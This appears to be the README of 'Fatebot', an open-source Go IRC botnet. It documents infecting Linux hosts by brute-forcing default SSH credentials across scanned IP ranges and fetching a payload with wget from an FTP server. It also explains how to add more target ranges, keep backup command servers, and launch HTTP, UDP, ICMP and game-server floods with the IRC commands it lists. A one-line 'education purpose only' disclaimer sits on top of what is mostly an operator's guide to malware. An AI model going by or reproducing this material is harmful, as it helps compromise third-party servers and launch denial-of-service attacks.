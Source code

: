 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot v0.4.1
This is my first IRC bot for launch DDoS attack. Scan target are anything that run linux, Open default SSH port, Use default username and password. This bot is write on Go language. For education purpose only. Please test it in your lab, And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="assets/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this bot is scanning by default SSH port<strong>(Scan on range of CHN network by default. You can add more or change it, If you want.)</strong>
and login by Brute-force attack. This botnet will use "wget" to get payload from FTP server, So... Please prepair your FTP server first, It's very important for infect process.

<strong>I scan on my private netowrk in SSH range.(That's why it's scan and login at The same ip address.)</strong>

	my_ssh_ip = "192.168.57"
	ipGen = append(ipGen, genRange(134, 133), ".")
	
	//Just example of my private scan!!!!

<img src="assets/scanprocess.png" alt="SSH scan">

# Add more IP range

(1) Go to "scan.go" file in pkg folder. Add your new ip range in to The group of const varible.

		var_name = "224." //224.0.0.0 - 224.255.255.255
		or
		var_name = "224.12" //224.12.255.255

(2) Go to "NextIP" function, And add The case for your ip range and return range of your ip.

		case var_name:
				return ManageIP_range(ipRange, GenRange(255, 0))
				
(2.1) In case of The ip range That you don't want to custom your second network prefix.
	
	Example:
	
		var_name = "224.12"
		var_name = "224.20"
		
	//The ip range that look like this it will return range of The id since 0 - 255 by default.
	//So... That's mean you don't need to add a case of your ip range.
	

(3) Then go to The "SSH_Conn" function, And add your ip constant to The slice name "NetList".

		netList := []string{
			ip1, ip2, ip3, ip4, ip5, ip6, ip7, ip8,
			ip9, ip10, ip11, var_name,
		}
		
<strong>I use shodan to do a static and analysis of scanning like how many of ssh port are open on which isp/org. What is the most used os, version and etc.</strong>

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The Application layer</strong>.


<img src="assets/postfloodtraffic.png" alt="http post flood, dos example">

# Build payload
<img src="assets/howtobuild.gif" alt="how to build">

# Update Lists
<p><strong>Fatebot v0.1</strong> = Fatebot open release.</p>
<p><strong>Fatebot v0.2</strong> = Update get bot system information function and Add some tutorial in main and scan file.</p>
<p><strong>Fatebot v0.2.1</strong> = Cut private scanning and OS signal by change it to self remove when running. And change some IRC commands that will type easier.</p>
<p><strong>Fatebot v0.2.2</strong> = Cut scan failed report to fix server overheat and excess flood, 
  And Optimize by change ip range and default ping time, That will help to find SSH port faster.(Maybe, But fast than old one.)</p>
<p><strong>Fatebot v0.3</strong> = Update new DDoS Vector. Set size of UDP packet to 700 as default when bot herder input The over size.</p>
<p><strong>Fatebot v0.3.1</strong> = Fix vse and post flood. Fix IRC configuration that will make a little easy to config and change project layout.</p>
<p><strong>Fatebot v0.4</strong> = Update IRC Backup Server configuration for Backup our bots When The Main IRC Server got shutdown by accident. Add and remove some feature of info function.</p>
<p><strong>Fatebot v0.4.1</strong> = Change curl to wget, Add more Default IP range, Config some assets and tutorial. Re-Write a shit code, Fix post and get flood.</p>

# IRC Commands
<ul>
  <li><strong>?get [url]</li></strong>
    <ul>
      <li>?get http://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?post [url]</li></strong>
    <ul>
      <li>?post http://target.com</li>
      - Flood HTTP post request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      <p>- Min and Max of Buffer is 1 - 700bytes.</p>
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?vse [ip]</li></strong>
    <ul>
      <li>?vse 192.168.1.16</li>
      - Flood TSource Engine Query request(UDP) on valve source engine dst port, By random src port. To the target server that used to host online games.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range(By default.) on SSH port and get payload with wget.
    </ul>
</ul>

<ul>
  <li><strong>?info</li></strong>
    <ul>
      - Get bot system information, For bot analysis.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Bot self-close.
    </ul>
</ul>

<ul>
  <li><strong>?stopddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stopscan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
